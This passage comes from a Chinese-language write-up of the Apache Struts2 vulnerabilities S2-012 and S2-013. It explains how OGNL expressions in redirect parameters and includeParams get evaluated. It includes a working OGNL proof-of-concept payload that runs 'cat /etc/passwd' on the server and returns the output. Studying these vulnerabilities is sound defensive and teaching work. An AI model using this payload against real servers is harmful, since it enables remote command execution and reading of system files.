 Struts Showcase App 2.0.0 - Struts Showcase App 2.3.14.2


### 漏洞描述 {#漏洞描述}

在之前的漏洞中，我们都是在请求参数名中插入 OGNL 表达式令其执行，而 struts 也相应
地增加了白名单机制来过滤恶意参数名。但参数值还是可以写入任意内容的，只要找到条件
让 struts 把参数值当作 OGNL 表达式来解析，就可以绕过之前的防护

012 漏洞的原因即在重定向时，从内存获取我们之前输入的参数值，这时会将它当作 OGNL
表达式执行

vulhub 示例：

```xml
<package name="S2-012" extends="struts-default">
	<action name="user" class="com.demo.action.UserAction">
		<result name="redirect" type="redirect">/index.jsp?name=${name}</result>
		<result name="input">/index.jsp</result>
		<result name="success">/index.jsp</result>
	</action>
</package>
```

当 UserAction 发生重定向时，会将 name 的值作为重定向页面的参数，导致表达式执行

poc:

```nil
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```


## S2-013 {#s2-013}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.3.14.1


### 漏洞描述 {#漏洞描述}

`<s:url` 和 `<s:a` 两个标签用于生成 anchor，而且它们有一个 includeParams 属性可以把
当前页面的参数添加到 anchor 的 href 中，includeParams 的可选值如下：

1.  none: 不包含原请求参数
2.  get: 只包含 get 请求参数
3.  all: 包含 get 请求和 post 请求参数

例子：

```html
<p><s:a id="link1" action="link" includeParams="all">"s:a" tag</s:a></p>
<p><s:url id="link2" action="link" includeParams="all">"s:url" tag</s:url></p>
```
